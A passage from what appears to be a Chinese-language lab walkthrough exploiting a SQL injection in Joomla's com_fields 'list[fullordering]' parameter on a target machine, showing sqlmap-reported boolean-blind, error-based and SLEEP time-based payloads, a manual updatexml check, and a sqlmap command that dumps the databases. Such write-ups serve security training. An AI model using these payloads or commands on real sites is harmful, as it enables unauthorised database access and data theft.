 ```


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&amp;view=fields&amp;layout=modal&amp;list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL &gt;= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&amp;view=fields&amp;layout=modal&amp;list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL &gt;= 5.0.12 time-based blind - Parameter replace (substraction)
Payload: option=com_fields&amp;view=fields&amp;layout=modal&amp;list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu) 

```

<img src="https://img-blog.csdnimg.cn/9fa7fa1ce6a74ffa9e75019938e75ae7.png" alt="在这里插入图片描述">

>  
 我们看到了POC，我们验证一下，把localhost修改为我们的靶机IP就ok 


```
http://192.168.233.179/index.php?option=com_fields&amp;view=fields&amp;layout=modal&amp;list[fullordering]=updatexml%27

```

>  
 看到提示，数据库语句错误，说明进行了拼接，存在SQL注入 


<img src="https://img-blog.csdnimg.cn/adb4e0c562b84016988767b21ed9df64.png" alt="在这里插入图片描述">

### 8、sqlmap跑出数据

#### 1.跑出所有数据库

```
sqlmap -u "http://192.168.233.179/index.php?option=com_fields&amp;view=fields&amp;layout=modal&amp;list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

```

<img src="https://img-blog.csdnimg.cn/eaf0fe31e3c64950b82f7e0b6e64421e.png" alt="在这里插入图片描述">

>  
 扫描结果 成功把数据库跑出来了 

